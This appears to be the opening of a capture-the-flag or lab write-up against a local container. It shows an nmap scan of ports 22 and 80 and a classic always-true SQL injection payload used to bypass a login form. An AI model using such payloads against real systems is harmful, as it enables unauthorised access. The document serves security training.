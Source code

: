 ## Port Analysis
``` bash
nmap 172.17.0.2
```

``` bash
Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-28 17:31 EDT
Nmap scan report for 172.17.0.2
Host is up (0.0000070s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
MAC Address: 02:42:AC:11:00:02 (Unknown)

Nmap done: 1 IP address (1 host up) scanned in 0.21 seconds
```

Opened:
- Port 22 (ssh): Connect to the system
- Port 80 (HTTP): Web page

## SQL Injection on Login
![[Pasted image 20250328223842.png]]

SQL injection always true:
``` SQL
' or 1=1 -- -
```
